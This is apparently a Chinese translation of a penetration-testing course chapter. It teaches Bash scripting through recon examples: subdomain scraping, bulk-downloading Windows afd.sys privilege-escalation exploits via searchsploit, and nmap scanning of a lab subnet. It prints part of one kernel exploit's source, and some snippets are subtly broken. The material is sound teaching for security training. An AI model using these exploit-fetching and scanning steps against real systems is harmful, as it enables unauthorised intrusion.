在这个例子中，代码执行流程稍微复杂一些。按照操作顺序，如果输入的年龄小于十六岁，则执行 *then* 分支；如果年龄大于六十岁，则进入 *elif* 分支（并显示“向你致敬”消息）；只有当年龄大于十六岁但小于六十岁时，*else* 分支才会执行。

## 5.4 布尔逻辑操作

布尔逻辑运算符，¹¹⁸ 如 *AND*（`&&`）和 *OR*（`||`）有些神秘，因为 Bash 以多种方式使用它们。

一种常见用途是在*命令列表*中，这些是由运算符控制流程的命令链。“`|`”（管道）符号是命令列表中常用的运算符，它将一个命令的输出传递给另一个命令的输入。类似地，布尔逻辑运算符根据前一个命令是否成功（返回 *True* 或 *0*）或失败（返回 *False* 或非零值）来执行命令。

让我们先看看 *AND*（`&&`）布尔运算符，它仅在前一个命令成功（或返回 *True* 或 *0*）时执行命令：

`kali@kali:~$ user2=kali`

`kali@kali:~$ grep $user2 /etc/passwd && echo "$user2 found!"`
`kali:x:1000:1000::,/home/kali:/bin/bash`
`kali found!`

`kali@kali:~$ user2=bob`

`kali@kali:~$ grep $user2 /etc/passwd && echo "$user2 found!"`

示例 153 - 在命令列表中使用 AND（`&&`）布尔运算符

在这个例子中，我们首先将我们要搜索的用户名赋值给 *user2* 变量。接下来，我们使用 `grep` 命令检查某个用户是否列在 `/etc/passwd` 文件中，如果是，`grep` 返回 *True* 并执行 `echo` 命令。但是，当我们尝试搜索我们已知在 `/etc/passwd` 文件中不存在的用户时，我们的 `echo` 命令没有执行。

¹¹⁸ (MIT). https://lilbguides.mit.edu/c.php?g=175963&p=1158594

在命令列表中使用时，OR（`||`）运算符是 AND（`&&`）的反义；它仅在前一个命令失败（返回 False 或非零值）时执行下一个命令：

`kali@kali:~$ echo $user2`
`bob`

`kali@kali:~$ grep $user2 /etc/passwd && echo "$user2 found!" || echo "$user2 not found!"`
`bob not found!`

示例 154 - 在命令列表中使用 OR（`||`）布尔运算符

在上面的例子中，我们将之前的命令向前推进了一步，添加了 OR（`||`）运算符，随后是第二个 `echo` 命令。现在，当 `grep` 没有找到匹配的行并返回 *False* 时，OR（`||`）运算符之后的第二个 `echo` 命令会被执行。

这些运算符还可以用于测试中，以比较变量或其他测试的结果。这样使用时，**AND**（`&&`）结合两个简单条件，如果它们*都*为真，则组合结果为成功（或 *True* 或 0）。

考虑这个例子：

`kali@kali:~$ cat ./and.sh`
```
#!/bin/bash
# and example

if [ $USER == 'kali' ] && [ $HOSTNAME == 'kali' ]
then
	echo "多个语句为真！"
else
	echo "没什么可看的..."
fi
```

`kali@kali:~$ chmod +x ./and.sh`

`kali@kali:~$ ./and.sh`
多个语句为真！

`kali@kali:~$ echo $USER && echo $HOSTNAME`
`kali`
`kali`

示例 155 - 使用 and（`&&`）布尔运算符在 Bash 中测试多个条件

在这个例子中，我们使用 `AND`（`&&`）测试多个条件，由于两个变量比较都为真，整个 *if* 语句成功，因此 *then* 分支执行。

在测试中使用时，OR（`||`）布尔运算符用于测试一个或多个条件，但*只有一个*条件为真即可算作成功。

让我们看一个例子：

`kali@kali:~$ cat ./or.sh`
```
#!/bin/bash
# or example

if [ $USER == 'kali' ] || [ $HOSTNAME == 'pwn' ]

then
	echo "一个条件为真，这行将被打印"
else
	echo "你没运气！"
fi
```

`kali@kali:~$ chmod +x ./or.sh`

`kali@kali:~$ ./or.sh`
一个条件为真，这行将被打印

`kali@kali:~$ echo $USER && echo $HOSTNAME`
`kali`
`kali`

示例 156 - 使用 or（`||`）布尔运算符在 Bash 中测试多个条件

在这个例子中，我们使用 `OR（||）` 测试多个条件，由于其中一个变量比较为真，整个 *if* 语句成功，因此 *then* 分支执行。

### 5.5 循环

在计算机编程中，*循环*¹¹⁹ 帮助我们完成需要重复运行直到满足特定标准的任务。迭代对于渗透测试人员特别有用，因此我们建议非常仔细地阅读本节。

在 Bash 中，两种最主要的循环命令是 *for*¹²⁰ 和 *while*。¹²¹ 我们将查看两者。

#### 5.5.1 For 循环

*For* 循环非常实用，并且在 Bash 单行命令中工作得很好。¹²² 这种类型的循环用于对列表中的每个项目执行一组给定的命令。让我们简要查看其一般语法：

```
for var-name in <list>
do
	<要执行的操作>
done
```

示例 157 - for 循环的一般语法

*For* 循环将按顺序获取 *list* 中的每个项目，将该项目分配为变量 *var-name* 的值，执行 *do* 和 *done* 之间给定的操作，然后返回顶部，获取列表中的下一个项目，并重复步骤，直到列表用尽。

让我们看一个更实际的例子，它将快速打印 10.11.1.0/24 子网中的前 10 个 IP 地址。¹²³

`kali@kali:~$ for ip in $(seq 1 10); do echo 10.11.1.$ip; done`
`10.11.1.1`
`10.11.1.2`
`10.11.1.3`
`10.11.1.4`
`10.11.1.5`
`10.11.1.6`
`10.11.1.7`
`10.11.1.8`
`10.11.1.9`
`10.11.1.10`

示例 158 - 在 Bash 中使用 for 循环的示例

在这个 Bash 单行命令（示例 158）中，我们使用 `seq` 命令打印一系列数字，在此情况下是 1 到 10。每个数字随后被赋值给 *ip* 变量，然后随着 *for* 循环多次运行，每个 IP 地址显示在屏幕上，直到序列结束。

重写之前 *for* 循环的另一种方法是使用范围进行*花括号扩展*¹²⁴。¹²⁵ 使用范围的花括号扩展通过给出范围的首尾值来编写，可以是数字或字符的序列。这被称为“序列表达式”。

`kali@kali:~$ for i in {1..10}; do echo 10.11.1.$i;done`
`10.11.1.1`
`10.11.1.2`
`10.11.1.3`
`10.11.1.4`
`10.11.1.5`
`10.11.1.6`
`10.11.1.7`
`10.11.1.8`
`10.11.1.9`
`10.11.1.10`

示例 159 - 在 Bash 中使用范围进行花括号扩展

这种类型的循环有很大的潜力。将 IP 地址显示在屏幕上可能看起来没什么用，但我们可以使用相同的循环来使用 `nmap`¹²⁷ 运行端口扫描¹²⁶（我们在另一个模块中详细讨论）。我们也可以尝试使用 `ping` 命令查看是否有任何 IP 地址响应 ICMP 回显请求，¹²⁸ 等等。

¹²³ (Cisco, 2016), https://www.cisco.com/c/en/us/support/docs/ip/routing-information-protocol-rip/13788-3.html
¹²⁴ (GNU, 2019), https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html
¹²⁵ (Bash Hackers Wiki, 2014), http://wiki.bash-hackers.org/syntax/expansion/brace
¹²⁶ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Port_scanner
¹²⁷ (Nmap, 2019), http://nmap.org/
¹²⁸ (Firewall.cx, 2018), http://www.firewall.cx/networking-topics/protocols/icmp-protocol/152-icmp-echo-ping.html

#### 5.5.2 While 循环

While 循环也比较常见，在表达式为真时执行代码。While 循环格式简单，并且像 *if* 一样，使用方括号（[]）进行测试：

```
while [ <某测试> ]
do
	<执行一个操作>
done
```

示例 160 - while 循环的一般语法

让我们用 *while* 循环重新创建之前的例子：

`kali@kali:~$ cat ./while.sh`
```
#!/bin/bash
# while loop example

counter=1

while [ $counter -lt 10 ]
do
	echo "10.11.1.$counter"
	((counter++))
done
```

`kali@kali:~$ chmod +x ./while.sh`
`kali@kali:~$ ./while.sh`
`10.11.1.1`
`10.11.1.2`
`10.11.1.3`
`10.11.1.4`
`10.11.1.5`
`10.11.1.6`
`10.11.1.7`
`10.11.1.8`
`10.11.1.9`

示例 161 - 在 Bash 中使用 while 循环

这不是我们期望的输出。这是一个常见的错误，称为“*差一*”¹²⁹ 错误。在上面的例子中，我们使用了 *-lt*（小于）而不是 *-le*（小于或*等于*），因此我们的计数器只到了九，而不是原本打算的十。

`((counter++))` 行使用双括号 `((...))`¹³⁰ 结构同时执行算术扩展和求值。在这种情况下，我们用它来将 *counter* 变量增加 1。让我们重写 *while* 循环并再次尝试该例子：

`kali@kali:~$ cat ./while2.sh`
```
#!/bin/bash
# while loop example 2
```

¹²⁹ [Stack Overflow, 2019], https://stackoverflow.com/questions/2939869/what-is-exactly-the-off-by-one-errors-in-the-while-loop

¹³⁰ [Advanced Bash-Scripting Guide, 2014], http://tldp.org/LDP/abs/html/dblparens.html


```bash
```


`counter=1`

`while [ $counter -le 10 ]`

`do`

    `echo "$10.11.1.$counter"`

    `((counter++))`

`done`

```
kali@kali:~$ chmod +x ./while2.sh
kali@kali:~$ ./while2.sh
10.11.1.1
10.11.1.2
10.11.1.3
10.11.1.4
10.11.1.5
10.11.1.6
10.11.1.7
10.11.1.8
10.11.1.9
10.11.1.10
```

*列表 162 - 在 Bash 中使用 while 循环的示例*

很好，我们的 `while` 循环看起来好多了。

### 5.6 函数

就 Bash 脚本而言，我们可以将函数视为脚本中的一个脚本，当我们需要在脚本中多次执行相同代码时，这非常有用。与其反复重写同一块代码，不如将其作为一个函数编写一次，然后根据需要调用该函数。

换句话说，函数是一个子程序，或是一个实现一组操作的代码块——一个执行指定任务的“黑盒”。函数可以有两种不同的格式。第一种格式在 Bash 脚本中更为常见：

```bash
function function_name {
  commands...
}
```

*列表 163 - 在 Bash 中编写函数的一种方式*

第二种格式对 C 语言程序员来说更熟悉：

```bash
function_name() {
  commands...
}
```

*列表 164 - 在 Bash 中编写函数的另一种方式*

这两种格式在功能上是完全相同的，主要取决于个人喜好。让我们看一个简单的示例：

```bash
kali@kali:~$ cat ./func.sh
#!/bin/bash
```


```bash
# 函数示例
print_me () { echo "You have been printed!"}
print_me
kali@kali:~$ chmod +x ./func.sh
kali@kali:~$ ./func.sh
You have been printed!
```

*列表 165 - 使用 Bash 函数在屏幕上打印消息*

函数也可以接受参数：

```bash
kali@kali:~$ cat ./funcarg.sh
#! /bin/bash
# 向函数传递参数
pass_arg () { echo "Today's random number is: $1"}
pass_arg $RANDOM
kali@kali:~$ chmod +x ./funcarg.sh
kali@kali:~$ ./funcarg.sh
Today's random number is: 25207
```

*列表 166 - 在 Bash 中向函数传递参数*

在这种情况下，我们将一个随机数 `$RANDOM` 传递到函数中，函数将其作为 `$1`（函数的第一个参数）输出。请注意，函数定义（`pass_arg()`）包含括号。在 C 等其它编程语言中，这些括号内通常包含预期的参数，但在 Bash 中，括号仅起装饰作用。它们从不被使用。还要注意，函数定义（函数本身）必须出现在调用它的代码之前。从逻辑上讲，我们不能调用尚未定义的东西。

*使用能够描述函数用途的描述性函数名。*

除了向 Bash 函数传递参数外，我们当然也可以从 Bash 函数返回值。Bash 函数实际上并不允许以传统意义上的方式返回任意值。相反，Bash 函数可以返回一个退出状态（成功为 0，失败为非 0）或我们稍后可通过 `$?` 全局变量访问的其它任意值（参见表 4）。或者，我们可以在函数内部设置一个全局变量，或使用命令替换来模拟传统的返回值。

让我们看一个将随机数返回到 `$?` 的简单示例：

```bash
kali@kali:~$ cat funcrvalue.sh
#!/bin/bash
# 函数返回值示例
return_me() {
    echo "Oh hello there, I'm returning a random value!"
    return $RANDOM
}
return_me
echo "The previous function returned a value of $?"
kali@kali:~$ chmod +x ./funcrvalue.sh
kali@kali:~$ ./funcrvalue.sh
Oh hello there, I'm returning a random value!
The previous function returned a value of 198
kali@kali:~$ ./funcrvalue.sh
Oh hello there, I'm returning a random value!
The previous function returned a value of 313
```


请注意，每次运行脚本时都会返回一个随机数，因为我们返回了特殊的全局变量 `$RANDOM`（到 `$?`）。如果我们在不使用 `$RANDOM` 参数的情况下使用 `return` 语句，则返回的将是该函数的退出状态（本例中为 0）。

既然我们已经对变量和函数有了基本的了解，我们可以更深入地讨论**变量作用域**。[131]

变量的作用域仅仅是指该变量具有意义的上下文。默认情况下，变量具有*全局*作用域，这意味着它可以在整个脚本中被访问。相比之下，*局部*变量只能在其定义所在的函数、代码块或子 shell 中被看到。我们可以通过在声明前加上 `local` 关键字来“叠加”一个全局变量，使其具有局部上下文，同时保持全局变量不变。通用语法如下：

```bash
local name="Joe"
```


让我们通过一个简单的示例来看看 `local` 和 `global` 变量在实际中是如何工作的：

```bash
kali@kali:~$ cat ./varscope.sh
#!/bin/bash
# 变量作用域示例
name1="John"
name2="Jason"
name_change() {
    local name1="Edward"
    echo "Inside of this function, name1 is $name1 and name2 is $name2"
    name2="Lucas"
}
echo "Before the function call, name1 is $name1 and name2 is $name2"
name_change
echo "After the function call, name1 is $name1 and name2 is $name2"
kali@kali:~$ chmod +x ./varscope.sh
kali@kali:~$ ./varscope.sh
Before the function call, name1 is John and name2 is Jason
Inside of this function, name1 is Edward and name2 is Jason
After the function call, name1 is John and name2 is Lucas
```

*列表 169 - 演示 Bash 中的变量作用域*

让我们强调列表 169 中的几个关键点。首先注意，我们声明了两个全局变量，将 `name1` 设置为 `John`，将 `name2` 设置为 `Jason`。

然后，我们定义了一个函数，并在该函数内部声明了一个名为 `name1` 的局部变量，将其值设置为 `Edward`。由于这是一个局部变量，之前的全局赋值并未受到影响；在这个函数外部，`name1` 仍然保持为 `John`。

接下来，我们将 `name2` 设置为 `Lucas`，由于我们没有使用 `local` 关键字，我们正在改变全局变量，并且该赋值在函数内部和外部都生效。

基于这个示例，以下两个要点概括了变量作用域：

- 改变与全局变量同名的局部变量的值不会影响其全局值。
- 在没有声明同名局部变量的情况下，在函数内部改变全局变量的值会影响其全局值。

## 5.7 实用示例

到目前为止，我们已经介绍了 Bash 脚本的基础知识。让我们把讨论过的所有概念结合起来，并通过几个实用示例进行演练。

### 5.7.1 实用的 Bash 使用 – 示例 1

在这个示例中，我们要查找主网页 `megacorpone.com` 上列出的所有子域名，并找到它们对应的 IP 地址。手动执行此操作会令人沮丧且耗时，但通过一些基本的 Bash 命令，我们可以将其变成一项简单的任务。我们将首先使用 `wget` 下载索引页面：

```bash


`kali@kali:~$ wget www.megacorpone.com`

URL transformed to HTTPS due to an HSTS policy

--2018-03-18 17:56:53--  http://www.megacorpone.com/

Resolving www.megacorpone.com (www.megacorpone.com)... 38.100.193.76

Connecting to www.megacorpone.com (www.megacorpone.com)|38.100.193.76|:80... connected

HTTP request sent, awaiting response... 200 OK

Length: 12520 (12K) [text/html]

Saving to: ‘index.html’

index.html

100%[=====================>] 12.23K --.-KB/s in 0s

2018-03-18 17:56:54 (2.56 MB/s) - ‘index.html’ saved [12520/12520]

`kali@kali:~$ ls -l index.html`

`-rw-r--r-- 1 kali kali 12520 Mar 18 17:56 index.html`

*列表 170 - 从 megacorpone.com 下载 index.html 页面*

手动扫描该文件，我们看到许多不需要的行。让我们开始缩小范围，提取我们需要的行，并剥离我们不需要的行。首先，我们可以使用 `grep` `"href="` 来提取 `index.html` 中包含 HTML 链接的所有行：

```bash
kali@kali:~$ grep "href=" index.html
<p>a href="http://beta.megacorpone.com/util/files/news.html">MegaCorp One CEO Joe She\
ner nominated for Nobel Physics, Medicine, and Literature prizes.</a></p>
<small>This is a fictitious company, brought to you by <a href=
"http://www.offensive-security.com/" target="_blank">Offensive Security</a>.</small></p>
<p>
<a href="https://www.facebook.com/MegaCorp-One-393570024393695
/" target="_blank"><i class="fa fa-facebook"></i></a>
<a href="https://twitter.com/joe_sheer"><i class="fa fa-tweett\
er"></i></a>
<a href="https://www.linkedin.com/company/18268898/" target="_
blank"><i class="fa fa-linkedin"></i></a>
<a href="https://github.com/megacorpone" target="_blank"><i class="fa fa-github"></i></a>
```

*列表 171 - 识别 index.html 文件中的超链接*

在上面的摘录中，第一行正是我们要找的东西的一个典型示例，因为它引用了一个子域名。

让我们使用 `grep` 获取包含 ".megacorpone" 的行（表明存在子域名），并使用 `grep -v` 剥离包含我们已经知道的无趣的 ‘www.megacorpone.com’ 域名的行：

```bash
kali@kali:~$ grep "href=" index.html | grep ".megacorpone" | grep -v "www.megacorp\
ne\.com" | head
<li>a href="http://support.megacorpone.com/ticket/requests/index.html">Nanoprocessors\n</a></li>
<li>a href="http://syslog.megacorpone.com/logs/sys/view.php">Perl\n in VanHook Chemical Dispensal</a></li>
<li>a href="http://test.megacorpone.com/demo/index.php">What are\n the ethics behind MegaCorp One?</a></li>
```

*列表 172 - 使用 grep 缩小搜索范围*

这个输出看起来更接近我们需要的结果。通过逻辑地减少数据量，并在每一次遍历中进行逐步减少，我们正处于数据处理中最常见的循环之中。

[131] (Advanced Bash-Scripting Guide, 2014), http://tldp.org/LDP/abs/html/localvar.html


看起来每一行都包含一个链接和一个子域名，但我们需要去除链接周围多余的 HTML 内容。在 Bash 中执行任何任务通常都有多种方法，但我们将使用一种不太为人所知的方法。我们将使用 `awk` 的 `-F` 选项来设置多字符分隔符，这与 `cut` 不同，`cut` 简单实用但只允许单字符分隔符。我们将把分隔符设置为 `http://`，并告诉 `awk` 我们要第二个字段（`{print $2}`），也就是该分隔符之后的所有内容：

```bash
kali@kali:~$ grep "href=" index.html | grep "\.megacorpone\.com" | awk -F "http://" '{print $2}'
admin.megacorpone.com/admin/index.html">Cell Regeneration</a></li>
intranet.megacorpone.com/pear/">Immune Systems Suplements</a></li>
mail.megacorpone.com/menu/">Micromachine Cyberisation Repair</a></li>
mail2.megacorpone.com/smtp/relay/">Nanomite Based Weaponry Systems</a></li>
siem.megacorpone.com/home/">Nanoprohe Based Entity Assimilation</a></li>
support.megacorpone.com/ticket/requests/index.html">Nano processors</a></li>
...
```

*清单 173 - 使用 awk 配合独特的分隔符进行搜索*

输出结果的开头表明我们走在正确的轨道上。现在，我们可以使用 `cut` 将分隔符设置为 `/`（使用 `-d`）并打印第一个字段（使用 `-f 1`），这样我们就只剩下完整的子域名名称了：

```bash
kali@kali:~$ grep "href=" index.html | grep "\.megacorpone\.com" | awk -F "http://" '{print $2}' | cut -d "/" -f 1
admin.megacorpone.com
intranet.megacorpone.com
mail.megacorpone.com
mail2.megacorpone.com
siem.megacorpone.com
support.megacorpone.com
...
```


# 清单 174 - 截取域名

这看起来很棒！然而，任何对 Bash 查询的审视都会一眼看出我们的笨拙并感到不屑。这是有道理的，因为我们以一种笨拙的方式使用了基本工具，尽管我们的简化过程相当合理。Bash 及其相关的命令和内建功能极其强大，总有更多知识值得学习。

如果我们试图批评我们的工作以进行改进，我们可能会看到一些简单的改进方法。首先，我们最初用 `"href="` 开始搜索，后来又搜索 `http://`。这两者本质上都是链接，但这要求每一行都包含这两个字符串。如果某一行只有 `http://` 而没有 `"href="`，我们就会漏掉该行。应当避免冗余，尤其是在处理大文件时。此外，我们并不一定关心链接本身，我们在寻找以 `.megacorpone.com` 结尾的子域名，无论引用是否包含在链接中。

另一个需要考虑的问题是，我们花费了大量时间和精力打磨结果以找出并分离出子域名名称。这种方法是笨拙的，容易出错，而且当一个格式良好的正则表达式搜索可以轻松处理时，这样做毫无意义。我们之前提过正则表达式的强大功能，现在让我们通过一个实际例子来看一下，在我们选择了这条艰难之路来解决此问题之后。

在这个例子中，我们将使用一个简单的正则表达式从文件中提取 `*.megacorpone.com` 子域名：

```
kali@kali:~$ grep -o '[^/]\.megacorpone\.' index.html | sort -u > list.txt

kali@kali:~$ cat list.txt

admin.megacorpone.com

beta.megacorpone.com

intranet.megacorpone.com

mail2.megacorpone.com

mail.megacorpone.com

siem.megacorpone.com

support.megacorpone.com

...
```

# 清单 175 - 使用正则表达式更优雅的解决方案

这个解决方案非常紧凑，但引入了一些新技术。首先，请注意 `grep -o` 选项，它只返回我们在正则表达式中定义的字符串。如果我们小心地构建表达式，这一条命令就能处理我们之前大部分的数据裁剪工作。该表达式本身看起来复杂，但相当直接明了。

我们要搜索的字符串 `[^/]\.megacorpone\., com` 包裹在单引号中，正如我们提到的，这将不允许变量扩展，并将把内部所有字符作为字面量处理。

表达式中的第一个块 `[^/]` 是一个取非 `^` 的字符集 `[ ]`，它搜索任何数量的字符 `*`，但不包括前斜杠。请注意，句点是用反斜杠转义的 `\.` 以强调我们要寻找的是字面意义上的句点。接下来，字符串必须以 `.megacorpone.com` 结尾。当 `grep` 找到匹配的字符串时，它会将其从行中提取出来并返回。

为了以后使用，我们可以通过在逗号分隔列表中包含其他字符来在取非列表中包含更多字符。例如，这个块 `[^/,]*` 将同时排除前斜杠和双引号字符。

这是许多新材料，可能看起来令人不知所措，但这是一个极佳的可复用正则表达式，它可以查找位于前斜杠之后、以 `.megacorpone.com` 结尾的任何字符串，并忠实地提取出 URL 引用的子域名。我们稍后可以重用这个正则表达式从文件中提取任意数量的字符串。

我们可以对这个正则表达式做更多事情，但它是一个很好的开端，也是正则表达式为何如此有价值的绝佳例子。

现在我们有一个来自 megacorpone.com 主页链接的整洁干净的域名列表。接下来，我们将使用 `host` 来发现文本文件中每个域名对应的 IP 地址。我们可以使用 Bash 单行循环来完成此操作：

```
kali@kali:~$ for url in $(cat list.txt); do host $url; done

admin.megacorpone.com has address 38.100.193.83

beta.megacorpone.com has address 38.100.193.88

intranet.megacorpone.com has address 38.100.193.87

mail2.megacorpone.com has address 38.100.193.73
```

# 清单 176 - 使用 host 命令查找 IP 地址


`host` 命令提供各种各样的输出，并非所有输出都相关。我们将通过管道将输出传递给 `grep` 搜索 "has address"，然后使用 `cut` 截取结果并 `sort` 排序，从而提取 IP 地址：

```
kali@kali:~$ for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u

173.246.47.170

38.100.193.66

38.100.193.67

38.100.193.73

38.100.193.76

38.100.193.77

38.100.193.79

38.100.193.83

38.100.193.84

38.100.193.87

38.100.193.88

38.100.193.89
```

# 清单 177 - 仅提取 IP 地址

很好！我们已经从网页中提取了 `.megacorpone.com` 子域名并获取了相应的 IP 地址。如我们所见，我们可以使用 Bash 及相关实用工具以及正则表达式来处理数据的方法有很多种，这进一步强调了深入研习这些主题在未来处理数据或加速流程方面将节省大量时间的事实。

## 5.7.2 Bash 实用用法 – 示例 2

在这个例子中，假设我们正处于渗透测试的中期，并获得了 Windows 机器的非特权访问权限。随着我们继续收集信息，我们意识到它可能容易受到一种以字母 a、f 和 d 开头的利用程序 `exploit` 的攻击，但我们记不起该利用程序的完整名称。为了尝试提升我们的权限，我们想要搜索该特定的利用程序。

为此，我们需要在 https://www.exploit-db.com 上搜索 "afd windows"，下载符合我们搜索标准的利用程序，并检查它们直到找到正确的那个。我们可以手动通过网站完成此操作，这不会花太长时间，但如果我们花时间编写一个 Bash 脚本，我们就可以轻松地在以后使用它来搜索并自动下载利用程序。

利用我们现在关于脚本的知识，让我们尝试自动化此任务。

我们将使用 Kali Linux 上的 `searchsploit` 实用工具开始。`SearchSploit` 是一个用于 Exploit-DB 的命令行搜索工具，它允许我们携带 Exploit 数据库的离线副本到任何地方。我们将传入 "afd windows" 作为搜索字符串，使用 `-w` 返回 https://www.exploit-db.com 的 URL 而不是本地路径，并使用 `-t` 搜索利用程序标题：

```
kali@kali:~$ searchsploit afd windows -w -t

Exploit Title | URL

Microsoft Windows (x86) - 'afd.sys' Privil | https://www.exploit-db.com/exploits/40564
```


<sup>132</sup>(Offensive Security, 2019). https://www.exploit-db.com/searchsploit/

| Microsoft Windows - 'AfdJoinLeaf' 权限提升 | https://www.exploit-db.com/exploits/21844 |
| --- | --- |
| Microsoft Windows - 'afd.sys' 本地内核权限提升 | https://www.exploit-db.com/exploits/18755 |
| Microsoft Windows 7 (x64) - 'afd.sys' 危险文件句柄 | https://www.exploit-db.com/exploits/39525 |
| Microsoft Windows 7 (x86) - 'afd.sys' 危险文件句柄 | https://www.exploit-db.com/exploits/39446 |
| Microsoft Windows 7 内核 - 基于池的溢出 | https://www.exploit-db.com/exploits/42009 |
| Microsoft Windows XP - 'afd.sys' 本地内核权限提升 | https://www.exploit-db.com/exploits/17133 |
| Microsoft Windows XP/2003 - 'afd.sys' 权限提升 | https://www.exploit-db.com/exploits/6757 |
| Microsoft Windows XP/2003 - 'afd.sys' 权限提升 | https://www.exploit-db.com/exploits/18176 |

**列表 178 - 使用 searchsploit 搜索利用工具**

这是一个良好的开端，但我们需要修剪结果。目前，我们只关注利用工具的 URL，因此让我们使用 `grep` 搜索 "`http`" ，然后使用 `cut` 提取所需内容。我们将使用 "`|`" 作为字段分隔符，并提取第二个字段：

```
kali@kali:~$ searchsploit afd windows -w -t | grep http | cut -f 2 -d "|"

https://www.exploit-db.com/exploits/40564

https://www.exploit-db.com/exploits/21844

https://www.exploit-db.com/exploits/18755

https://www.exploit-db.com/exploits/39525

https://www.exploit-db.com/exploits/39446

https://www.exploit-db.com/exploits/42009

https://www.exploit-db.com/exploits/17133

https://www.exploit-db.com/exploits/18176

https://www.exploit-db.com/exploits/6757
```

**列表 179 - 从 searchsploit 的输出中提取 URL**

这看起来好一些了。现在我们已经有了每个利用工具的 URL，我们可以使用 Bash 循环来下载文件并将其保存为本地文件。然而，在此之前，我们注意到每个页面都有一个链接可以下载“原始”利用工具代码，而这正是我们真正想要的：



我们可以看到，每个原始页面（例如 `/exploits/40564`）都链接到一个原始利用工具（例如 `/raw/40564`）。凭借这一信息，我们运行 `sed`（`sed 's/exploits/raw/'`）来修改下载 URL，并将其插入一个 Bash 单行命令中，以下载利用工具的原始代码：

```
kali@kali:~$ for e in $(searchsploit afd windows -w -t | grep http | cut -f 2 -d " ");
do exp_name=$(echo $e | cut -d "/" -f 5) && url=$(echo $e | sed 's/exploits/raw/') &&
wget -q --no-check-certificate $url -O $exp_name; done
```

请注意使用 `for` 循环遍历我们获取的 SearchSploit URL。在循环内部，我们将 `exp_name` 设置为利用工具的“名称”（使用 `grep`、`cut` 和命令替换）。如果成功（`&&`），我们使用 `wget` 获取利用工具（在安静模式下且不检查证书），并以利用工具名称作为本地文件名保存下来。

一旦我们运行它，我们等待命令提示符，并使用 `file` 命令验证利用工具确实已下载，以确认这些文件是文本文件：

```
kali@kali:~$ ls -l

total 124

-rw-r--r--  1 root root   1363 Mar  7 19:52 17133

-rw-r--r--  1 root root  12215 Mar  7 19:52 18176

-rw-r--r--  1 root root   9698 Mar  7 19:52 18755

-rw-r--r--  1 root root  11590 Mar  7 19:52 21844

-rw-r--r--  1 root root  10575 Mar  7 19:52 39446

-rw-r--r--  1 root root  14193 Mar  7 19:52 39525

-rw-r--r--  1 root root  32674 Mar  7 19:52 40564

-rw-r--r--  1 root root  12643 Mar  7 19:52 42009

-rw-r--r--  1 root root    619 Mar  7 19:52 6757

kali@kali:~$ file 17133

17133: C source, ASCII text, with CRLF line terminators
```

我们可以检查每个利用工具，看到我们实际上确实获取了原始利用工具：

```
kali@kali:~$ cat 17133

/////////////////////////////////////////////////////

//

// Title: Microsoft Windows xp AFD.sys Local Kernel DoS Exploit

// Author: Lufeng Li of Neusoft Corporation

// Vendor: www.microsoft.com

// Vulnerable: Windows xp sp3

//

/////////////////////////////////////////////////////

#include <stdio.h>

#include <Winsock2.h>

#pragma comment (lib, "ws2_32.lib")

BYTE buff[]={

0xac,0xfd,0xd3,0x00,0x01,0x00,0x00,0x00,0x00,0x00,

0x00,0x00,0x20,0x00,0x00,0x00,0x08,0xfd,0xd3,0x00,

0x00,0xfd,0x00,0x08,0xfd,0xd3,0x00,0xc4,0xfd,

0xd3,0x00,0xcc,0xfd,0xd3,0x00};

int main( )

...
```

尽管我们成功使用了 Bash 单行命令，但我们的代码并不干净，也不太容易重用。让我们把所有内容整合到一个 Bash 脚本来解决这些问题：

```bash
kali@kali:~$ cat dlspoils.sh

#!/bin/bash

# Bash 脚本，用于搜索给定的利用工具并下载所有匹配项。

for e in $(searchsploit afd windows -w -t | grep http | cut -f 2 -d "|")
do
  exp_name=$(echo $e | cut -d "/" -f 5)
  url=$(echo $e | sed 's/exploits/raw//')
  wget -q --no-check-certificate $url -O $exp_name
done
```

```
kali@kali:~$ chmod +x ./dlspoils.sh
kali@kali:~$ ./dlspoils.sh
```


## 列表 183 - 使用 Bash 脚本下载文件

现在我们可以手动检查利用工具，找到我们感兴趣的那些，在测试机器上尝试它们，并最终在目标上运行正确的利用工具，因为向实时目标盲目发射随机利用工具是不礼貌的，也是导致彻底灾难的配方。

### 5.7.3 实用 Bash 使用 – 示例 3

作为渗透测试人员，我们总是试图找到提高效率的方法，以最大限度地减少我们在分析数据上花费的时间，尤其是在各种扫描过程中恢复的大量数据。

让我们假设我们被指派扫描一个 C 类子网，以识别 Web 服务器并确定它们是否呈现出有趣的攻击面。端口扫描是检查远程机器上的 TCP 或 UDP 端口的过程，目的是检测目标上运行的服务以及可能存在的攻击向量。我们将在另一个模块中更详细地讨论端口扫描，但现在，让我们保持一般性，因为这是一个很好的例子，展示了 Bash 脚本如何自动化一个相当繁琐的任务。

为了完成我们的目标，我们首先要对整个子网进行端口扫描，以定位潜在的开放 Web 服务，然后我们可以手动浏览它们的 Web 页面。

首先，让我们创建一个临时文件夹用于此练习：

```
kali@kali:~$ mkdir temp

kali@kali:~$ cd temp/
```

### 列表 184 - 创建用于此练习的临时文件夹

既然我们已经创建了目录并使用 `cd` 进入它，让我们继续进行更有趣的部分，即扫描 C 类子网。我们将只关注端口 80，以保持范围在一定程度上可管理，我们将使用 `nmap`（我们在后续模块中会讨论）作为我们的端口扫描工具：

```
kali@kali:~/temp$ sudo nmap -A -p80 --open 10.11.1.0/24 -oG nmap-scan_10.11.1.1-254

Starting Nmap 7.60 ( https://nmap.org ) at 2019-03-18 18:57 EDT

Nmap scan report for 10.11.1.8

Host is up (0.030s latency).

PORT STATE SERVICE VERSION

80/tcp open http Apache httpd 2.0.52 (CentOS)

| http-methods:

| Potentially risky methods: TRACE

| http-robots.txt: 2 disallowed entries

| internal/ /tmp/

